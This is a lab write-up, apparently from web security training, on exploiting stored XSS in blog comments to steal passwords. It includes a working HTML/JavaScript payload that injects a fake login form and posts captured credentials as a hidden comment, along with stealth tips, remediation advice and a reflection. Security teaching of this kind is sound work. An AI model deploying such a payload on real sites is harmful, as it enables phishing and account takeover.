 # Lab: Exploiting Stored XSS to Capture Passwords (Alternative Solution)

## 1. Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in the blog comment feature can be exploited to trick a victim into submitting their username and password via a malicious login form injected into the page.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* Attacker can inject **arbitrary HTML alongside JavaScript**.
* Victims may be deceived into providing credentials to a fake form controlled by the attacker.

---

## 3. Proof of Concept (PoC)
```html
<input type="text" name="username">
<input type="password" name="password" onchange="atack()">
<script>
    function atack () {
        
        var token = document.getElementsByName("csrf")[0].value;
        var postId = document.getElementsByName("postId")[0].value;
        var username = document.getElementsByName("username")[0].value;
        var password = document.getElementsByName("password")[0].value;
        var data = new FormData();
        
        data.append('csrf',token);
        data.append('postId',postId);
        data.append('comment',"<span style='display:none'>"+`${username} : ${password}`+"</span> Nice post!" );
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');
        
        fetch('/post/comment',{
            method:"POST",
            mode:"no-cors",
            body:data,
        })
    }
</script>
```

### Screenshots
1. blog comment form containing the injected fake login inputs for capturing credentials.
![Screenshot of the blog comment form containing the injected fake login inputs for capturing credentials.](Images/InjectedPayload.png)
2. Victim entering credentials into the attacker-injected login form on the blog post page.
![Victim entering credentials into the attacker-injected login form on the blog post page.](Images/VictimEnteringCredentials.png)
3. Hidden comment containing the stolen username and password, submitted by the XSS payload.
![Hidden comment containing the stolen username and password, submitted by the XSS payload.](Images/HiddenCommentShowingCapturedData.png)
4. Attacker logging in as the victim using credentials captured via the stored XSS attack.
![Attacker logging in as the victim using credentials captured via the stored XSS attack.](Images/AttackerUsingStolenCredentials.png)
5. Successfully logged in.
![Successfully logged in.](Images/Succes.png)

---

## 4. Exploit Workflow

1. Attacker submits a crafted HTML form as a blog comment.
2. Victim visits the blog post and sees the injected login form.
3. Victim enters their username and password, believing it’s a legitimate request.
4. Credentials are sent to the attacker’s controlled endpoint (or captured inline in the lab).
5. Attacker uses the stolen credentials to authenticate as the victim.

---

## 5. Stealth Considerations

* The fake login form can be styled to closely resemble the site’s real login page.
* A redirect to the actual login page after form submission helps reduce suspicion.
* Attackers may hide the malicious form until certain conditions are met (e.g., triggered by JavaScript).

---

## 6. Impact

* Victims unknowingly expose their actual account credentials, not just temporary session tokens.
* Credentials remain valid across sessions, giving the attacker persistent account access.
* Depending on the victim’s role, this could lead to privilege escalation or sensitive data exposure.

---

## 7. Remediation

* **Contextual output encoding:** properly escape user-supplied content before rendering.

* **Restrict HTML input:** do not allow raw HTML in comments.

* **Content Security Policy (CSP):** block inline JavaScript and restrict form submissions to trusted origins.

* **Multi-factor authentication (MFA):** mitigate the impact of stolen credentials.

## 8. Reflection

This lab highlights how stored XSS can be abused for social engineering and phishing, not just technical exploits like cookie theft.
The attacker leverages user trust in the application to steal credentials, bypassing purely technical defenses.

Ultimately, the vulnerability stems from **unsafe rendering of untrusted input**.
This demonstrates the importance of **defense-in-depth: sanitization, output encoding, CSP, and strong authentication measures**.